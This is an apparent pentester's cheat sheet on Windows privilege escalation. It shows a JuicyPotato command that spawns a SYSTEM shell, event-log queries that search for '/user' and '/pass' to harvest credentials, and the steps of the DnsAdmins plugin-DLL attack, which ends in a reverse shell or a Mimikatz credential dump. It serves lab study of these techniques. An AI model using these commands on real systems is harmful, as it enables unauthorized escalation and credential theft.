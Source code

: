 ### SeImpersonate

Check if print spooler is actually running: `Get-Service Spooler`

Now launching the ease of access menu in the login screen gives you cmd.exe with SYSTEM privileges!

`.\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c <PAYLOAD>" -t *`
- `-l` means COM listening port

### PowerUp

Automated privesc utilities

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1


## Group Privileges

### Backup Operators

See SeBackupPrivilege section.

### Event Log Readers

Similar to Linux "adm" group - lets you read logs. How?

cmd.exe: `wevtutil`, we can run the following command on logs:
```
wevtutil qe <LOG> /rd:true /f:text /r:share01 /u:<USER> /p:<PASSWORD> | findstr <SEARCH-TERM>

// where `<SEARCH-TERM>` might be e.g. "/user" or "/pass"
```

PowerShell: `Get-WinEvent` - REQUIRES ADMIN ACCESS OR PERMISSIONS ADJUSTED ON REG KEY HKLM\System\CurrentControlSet\Services\EventLog\Security

```
Get-WinEvent -LogName <LOG> [-Credential <PSCRED>] | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

### DNS Admins

These guys have access to the DNS stuff on the network, like the DNS service which runs as NT AUTHORITY\SYSTEM and is typically found on Domain Controllers.

Custom plugins can be loaded to help with resolving name querties that are mot in the scope of any locally hosted DNS zones. 

There is this cool attack to gain SYSTEM privileges on a domain controller using this group. Ngl I ripped the below steps of HTB but here's a good post for clarity on the attack: https://adsecurity.org/?p=4064

1. DNS management is performed over RPC
2. ServerLevelPluginDll allows us to load a custom DLL with zero verification of the DLL's path. This can be done with the dnscmd tool from the command line
3. When a member of the DnsAdmins group runs the dnscmd command below, the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll registry key is populated
4. When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)
5. An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.
